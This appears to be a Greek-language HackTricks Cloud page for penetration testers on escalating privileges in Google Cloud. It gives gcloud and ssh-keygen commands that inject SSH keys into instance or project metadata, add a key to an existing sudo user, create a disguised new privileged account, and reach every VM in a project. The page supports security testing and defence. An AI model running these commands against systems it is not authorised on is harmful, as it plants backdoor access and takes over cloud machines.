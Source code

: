 # GCP - Προσθήκη Προσαρμοσμένων Μεταδεδομένων SSH

<details>

<summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Τροποποίηση των μεταδεδομένων <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Η τροποποίηση των μεταδεδομένων σε ένα instance μπορεί να οδηγήσει σε **σημαντικούς κινδύνους ασφαλείας εάν ένας επιτιθέμενος αποκτήσει τις απαραίτητες άδειες**.

### **Ενσωμάτωση των Κλειδιών SSH στα Προσαρμοσμένα Μεταδεδομένα**

Στο GCP, τα **συστήματα Linux** συχνά εκτελούν σενάρια από το [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Ένα κρίσιμο στοιχείο αυτού είναι το [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), το οποίο έχει σχεδιαστεί για να **ελέγχει τακτικά** το endpoint των μεταδεδομένων του instance για **ενημερώσεις στα εξουσιοδοτημένα δημόσια κλειδιά SSH**.

Επομένως, εάν ένας επιτιθέμενος μπορεί να τροποποιήσει τα προσαρμοσμένα μεταδεδομένα, μπορεί να κάνει τον δαίμονα να βρει ένα νέο δημόσιο κλειδί, το οποίο θα επεξεργαστεί και θα **ενσωματωθεί στο τοπικό σύστημα**. Το κλειδί θα προστεθεί στο αρχείο `~/.ssh/authorized_keys` ενός **υπάρχοντος χρήστη ή πιθανώς δημιουργώντας ένα νέο χρήστη με δικαιώματα `sudo`**, ανάλογα με τη μορφή του κλειδιού. Και ο επιτιθέμενος θα μπορεί να απειλήσει τον υπολογιστή.

### **Προσθήκη κλειδιού SSH σε υπάρχον προνομιούχο χρήστη**

1. **Εξέταση των Υπαρχόντων Κλειδιών SSH στο Instance:**
- Εκτελέστε την εντολή για να περιγράψετε το instance και τα μεταδεδομένα του για να εντοπίσετε τα υπάρχοντα κλειδιά SSH. Η σχετική ενότητα στην έξοδο θα βρίσκεται κάτω από τα `metadata`, ειδικότερα το κλειδί `ssh-keys`.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- Προσέξτε τη μορφή των κλειδιών SSH: το όνομα χρήστη προηγείται του κλειδιού, χωρίζονται με ένα άνω και κάτω τελεία.

2. **Προετοιμασία Αρχείου Κειμένου για τα Μεταδεδομένα του Κλειδιού SSH:**
- Αποθηκεύστε τις λεπτομέρειες των ονομάτων χρηστών και των αντίστοιχων κλειδιών SSH σε ένα αρχείο κειμένου με το όνομα `meta.txt`. Αυτό είναι απαραίτητο για τη διατήρηση των υπαρχόντων κλειδιών κατά την προσθήκη νέων.

3. **Δημιουργία Νέου Κλειδιού SSH για τον Στόχο Χρήστη (`alice` σε αυτό το παράδειγμα):**
- Χρησιμοποιήστε την εντολή `ssh-keygen` για να δημιουργήσετε ένα νέο κλειδί SSH, εξασφαλίζοντας ότι το πεδίο σχολίου (`-C`) ταιριάζει με το όνομα χρήστη στόχο.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Προσθέστε το νέο δημόσιο κλειδί στο `meta.txt`, μιμούμενο τη μορφή που βρίσκεται στα μεταδεδομένα του instance.

4. **Ενημέρωση των Μεταδεδομένων του Κλειδιού SSH του Instance:**
- Εφαρμόστε τα ενημερωμένα μεταδεδομένα του κλειδιού SSH στο instance χρησιμοποιώντας την εντολή `gcloud compute instances add-metadata`.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Πρόσβαση στο Instance χρησιμοποιώντας το Νέο Κλειδί SSH:**
- Συνδεθείτε στο instance με SSH χρησιμοποιώντας το νέο κλειδί, έχοντας πρόσβαση στο κέλυφος του στόχου χρήστη (`alice` σε αυτό το παράδειγμα).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Δημιουργία νέου προνομιούχου χρήστη και προσθήκη ενός κλειδιού SSH**

Εάν δεν βρεθεί κάποιος ενδιαφέρων χρήστης, είναι δυνατόν να δημιουργηθεί ένας νέος
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### SSH κλειδιά σε επίπεδο έργου <a href="#sshing-around" id="sshing-around"></a>

Είναι δυνατόν να επεκτείνετε την πρόσβαση SSH σε πολλές Εικονικές Μηχανές (VMs) σε ένα περιβάλλον νέφους εφαρμόζοντας κλειδιά SSH σε επίπεδο έργου. Αυτή η προσέγγιση επιτρέπει την πρόσβαση SSH σε οποιαδήποτε περίπτωση εντός του έργου που δεν έχει αποκλείσει ρητά τα κλειδιά SSH σε επίπεδο έργου. Εδώ υπάρχει ένας συνοπτικός οδηγός:

1. **Εφαρμογή κλειδιών SSH σε επίπεδο έργου:**
- Χρησιμοποιήστε την εντολή `gcloud compute project-info add-metadata` για να προσθέσετε τα κλειδιά SSH από το `meta.txt` στα μεταδεδομένα του έργου. Αυτή η ενέργεια εξασφαλίζει ότι τα κλειδιά SSH αναγνωρίζονται σε όλες τις VMs στο έργο, εκτός αν μια VM έχει ενεργοποιημένη την επιλογή "Αποκλεισμός κλειδιών SSH σε επίπεδο έργου".
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **Σύνδεση με SSH σε περιπτώσεις χρήσης χρησιμοποιώντας κλειδιά σε επίπεδο έργου:**
- Με τα κλειδιά SSH σε επίπεδο έργου στη θέση τους, μπορείτε να συνδεθείτε με SSH σε οποιαδήποτε περίπτωση εντός του έργου. Οι περιπτώσεις που δεν αποκλείουν τα κλειδιά σε επίπεδο έργου θα αποδεχτούν το κλειδί SSH, παρέχοντας πρόσβαση.
- Ένας άμεσος τρόπος για να συνδεθείτε με SSH σε μια περίπτωση είναι να χρησιμοποιήσετε την εντολή `gcloud compute ssh [INSTANCE]`. Αυτή η εντολή χρησιμοποιεί το όνομα χρήστη σας και τα κλειδιά SSH που έχουν οριστεί σε επίπεδο έργου για να προσπαθήσει να αποκτήσει πρόσβαση.


# Αναφορές
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Συμμετάσχετε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
